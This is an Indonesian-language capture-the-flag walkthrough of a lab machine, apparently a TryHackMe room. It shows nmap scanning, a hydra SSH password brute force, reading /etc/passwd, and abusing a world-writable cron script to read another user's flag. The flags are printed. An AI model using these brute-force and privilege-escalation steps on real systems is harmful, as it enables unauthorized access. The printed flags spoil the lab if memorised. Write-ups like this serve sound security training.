 scan dengan nmap
```
nmap -sC -sV -Pn IP-target
...
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36:a5:78:51:d8:ad:67:d4:09:a6:e0:77:55:c1:4a:c0 (RSA)
|   256 88:fe:e2:90:cd:a0:04:ae:26:61:0a:5f:24:2b:e6:5e (ECDSA)
|_  256 3d:d3:b5:19:6d:59:7e:ec:79:47:72:80:3b:79:1f:f3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

selanjutnya bruteforce ssh Sam dengan hydra
```
hydra -l Sam -P /usr/share/wordlists/rockyou.txt IP-target -s 4567 ssh
...
...
[DATA] attacking ssh://10.10.27.40:4567/
[4567][ssh] host: 10.10.27.40   login: Sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

selanjutnya login menggunakan creds yang didapat, dan `cat flag1.txt` pada home dir Sam.
```
ssh Sam@IP-target
password: 
...
...
cat flag1.txt
THM{dec4389bc09669650f3479334532aeab}
```

selanjutnya kita cari siapa saja user yang ada didalam target dengan cara
```
cat /etc/passwd
...
...
Ubuntu:x:1000:1000:Ubuntu:/home/Ubuntu:/bin/bash           
Sam:x:1001:1001:Elf Sam,,,:/home/Sam:/bin/bash
```

dapat dilihat bahwa terdapat user bernama Ubuntu. untuk dapat privesc ke user Ubuntu, kita dapat memulainya dengan cara mencari file yang dimiliki oleh user Ubuntu dengan cara
```
find / type f -group ubuntu 2>/dev/null
...
/home/scripts/clean_up.sh
/home/ubuntu
/home/ubuntu/.ssh
/home/ubuntu/.profile
/home/ubuntu/.bash_history
/home/ubuntu/.cache
/home/ubuntu/.nano
/home/ubuntu/.sudo_as_admin_successful
/home/ubuntu/.vim
/home/ubuntu/.vim/.netrwhist
/home/ubuntu/flag2.txt
/home/ubuntu/.bashrc
/home/ubuntu/.bash_logout
```

dapat dilihat bahwa flag2.txt dimiliki oleh user Ubuntu, namun kita tidak bisa melihat kontennya. tapi terdapat file menarik yaitu `/home/scripts/clean_up.sh`, yang mana jika dicek, file permissionnya adalah `-rwxrwxrwx`, yang berarti kita sebagai user sam dapat memodifikasi file tersebut. Selanjutnya kita dapat mulai memodifikasinya
```
vim clean_up.sh
...
#sebelum
#rm -rf /tmp/*

#ubah menjadi seperti berikut
cat /home/ubuntu/flag2.txt > /home/sam/result.txt
```
selanjutnya kita hanya perlu menuggu beberapa saat, dan  dapat melihat hasilnya

```
cat result.txt
...
THM{b27d33705f97ba2e1f444ec2da5f5f61}
```
